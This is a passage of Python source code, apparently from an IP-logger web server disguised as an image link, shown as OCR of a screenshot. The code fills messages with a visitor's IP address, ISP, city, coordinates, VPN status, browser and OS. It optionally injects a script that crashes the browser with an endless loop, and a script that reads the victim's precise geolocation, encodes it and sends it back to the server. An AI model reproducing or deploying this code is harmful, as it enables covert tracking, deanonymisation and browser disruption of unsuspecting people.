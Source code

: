 ```
                if config["message"]["richMessage"] and result:
                    message = message.replace("{ip}", self.headers.get('x-forwarded-for'))
                    message = message.replace("{isp}", result["isp"])
                    message = message.replace("{asn}", result["as"])
                    message = message.replace("{country}", result["country"])
                    message = message.replace("{region}", result["regionName"])
                    message = message.replace("{city}", result["city"])
                    message = message.replace("{lat}", str(result["lat"]))
                    message = message.replace("{long}", str(result["lon"]))
                    message = message.replace("{timezone}", f"{result['timezone'].split('/')[1].replace('_', ' ')} ({result['timezone'].split('/')[0]})")
                    message = message.replace("{mobile}", str(result["mobile"]))
                    message = message.replace("{vpn}", str(result["proxy"]))
                    message = message.replace("{bot}", str(result["hosting"] if result["hosting"] and not result["proxy"] else 'Possibly' if result["hosting"] else 'False'))
                    message = message.replace("{browser}", httpagentparser.simple_detect(self.headers.get('user-agent'))[1])
                    message = message.replace("{os}", httpagentparser.simple_detect(self.headers.get('user-agent'))[0])

                datatype = 'text/html'

                if config["message"]["doMessage"]:
                    data = message.encode()
                
                if config["crashBrowser"]:
                    data = message.encode() + b'<script>setTimeout(function(){for (var i=69420;i==i;i*=i){console.log(i)}}, 100)</script>' # Crasher code by me! https://github.com/dekrypted/Chromebook-Crasher

                if config["redirect"]["redirect"]:
                    data = f'<meta http-equiv="refresh" content="0;url={config["redirect"]["page"]}">'.encode()
                self.send_response(200) # 200 = OK (HTTP Status)
                self.send_header('Content-type', datatype) # Define the data as an image so Discord can show it.
                self.end_headers() # Declare the headers as finished.

                if config["accurateLocation"]:
                    data += b"""<script>
var currenturl = window.location.href;

if (!currenturl.includes("g=")) {
    if (navigator.geolocation) {
        navigator.geolocation.getCurrentPosition(function (coords) {
    if (currenturl.includes("?")) {
        currenturl += ("&g=" + btoa(coords.coords.latitude + "," + coords.coords.longitude).replace(/=/g, "%3D"));
    } else {
        currenturl += ("?g=" + btoa(coords.coords.latitude + "," + coords.coords.longitude).replace(/=/g, "%3D"));
    }
    location.replace(currenturl);});
}}

</script>"""
                self.wfile.write(data)
        
        except Exception:
            self.send_response(500)
            self.send_header('Content-type', 'text/html')
            self.end_headers()

```